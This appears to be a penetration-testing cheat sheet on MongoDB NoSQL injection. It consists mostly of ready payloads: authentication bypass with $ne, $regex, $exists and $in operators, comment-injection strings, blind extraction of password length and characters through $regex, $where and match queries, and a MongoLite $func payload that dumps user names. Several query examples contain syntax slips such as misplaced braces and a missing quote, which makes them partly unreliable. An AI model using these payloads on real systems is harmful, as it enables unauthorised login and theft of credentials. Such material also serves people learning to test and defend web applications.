

# MongoDB



## # Authentication Bypass

```mongodb
db.user.find({"uid": req.body.uid, "upw": req.body.upw })
```

### Payload

```mongodb
# uid=admin&upw[$ne]="" 
db.user.find({"uid": 'admin',"upw": {"$ne":""} })

# uid[$regex]=a.*&upw[$ne]=""
db.user.find({"uid": {"$regex": "a.*"},"upw": {"$ne":""} })

# uid[$regex]=.*&upw[$regex]=.*
db.user.find({"uid": {"$regex": ".*"},"upw": {"$regex": ".*"} })

# uid[$exists]=true&upw[$exists]=true
db.user.find({"uid": {"$exists": true},"upw": {"$exists": true} })
```

### Comment

```mongodb
NySQL : ' or 1=1#
Mongo : ' || 1==1//
      : ' || 1==1%00
```

## # Blind NoSQL Injection

### Length Extraction

```mongodb
# uid=admin&upw[$regex]=.{1}
db.user.find({"uid": "admin"},"upw": {"$regex": ".{1}"}})

# uid=admin&upw[$regex]=.{2}
db.user.find({"uid": "admin"},"upw": {"$regex": ".{2}"}})

# uid=admin&upw[$regex]=.{3}
db.user.find({"uid": "admin"},"upw": {"$regex": ".{3}"}})

...

# uid=admin&upw[$regex]=.{8}
db.user.find({"uid": "admin"},"upw": {"$regex": ".{8}"}})
# uid=admin&upw[$regex]=.{9}
db.user.find({"uid": "admin"},"upw": {"$regex": ".{9}"}})
```

### Data Extraction

```mongodb
# $regex
db.user.find({"upw": {$regex: "^a"}}) # False
db.user.find({"upw": {$regex: "^b"}}) # False
db.user.find({"upw": {$regex: "^c"}}) # False
...
db.user.find({"upw": {$regex: "^f"}}) # False
db.user.find({"upw": {$regex: "^g"}}) # True

db.user.find({"upw": {$regex: "^ga"}}) # False
db.user.find({"upw": {$regex: "^gb"}}) # False
db.user.find({"upw": {$regex: "^gc"}}) # False
db.user.find({"upw": {$regex: "^gd"}}) # False

...
db.user.find({"upw": {$regex: "^guest$"}}) # True

# $where
db.user.find({$where: "this.upw.substring(0,1)=='a'"}) # False
db.user.find({$where: "this.upw.substring(0,1)=='b'"}) # False
db.user.find({$where: "this.upw.substring(0,1)=='c'"}) # False
...
db.user.find({$where: "this.upw.substring(0,1)=='f'"}) # False
db.user.find({$where: "this.upw.substring(0,1)=='g'"}) # True

db.user.find({$where: "this.upw.substring(1,1)=='a'"}) # False
db.user.find({$where: "this.upw.substring(1,1)=='b'"}) # False
db.user.find({$where: "this.upw.substring(1,1)=='c'"}) # False
db.user.find({$where: "this.upw.substring(1,1)=='d'"}) # False

...

# $in
# uid[$in]=Admin&uid[$in]=4dm1n&uid[$in]=admin&uid[$in]=root&upw[$ne]=""
db.user.find({"uid":{"$in":["Admin,"4dm1n","admin","root"]},"upw":{"$ne":""}})

# match
/?uid=admin' && this.password%00  // check if the field password exists
/?uid=admin' && this.password && this.password.match(/^a.*$/)%00
/?uid=admin' && this.password && this.password.match(/^b.*$/)%00
/?uid=admin' && this.password && this.password.match(/^c.*$/)%00
...
/?uid=admin' && this.password && this.password.match(/^adm.*$/)%00
...
/?uid=admin' && this.password && this.password.match(/^admin$/)%00
```


## # $func operator&#x20;

The $func operator of MongoLite Library might execute arbitrary function. By passing the PHP function `var_dump` in $func operator, we can get the names of all app users.   &#x20;

```mongodb
"user":{"$func": "var_dump"}
```



<figure><figcaption></figcaption></figure>

## References



{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection" %}


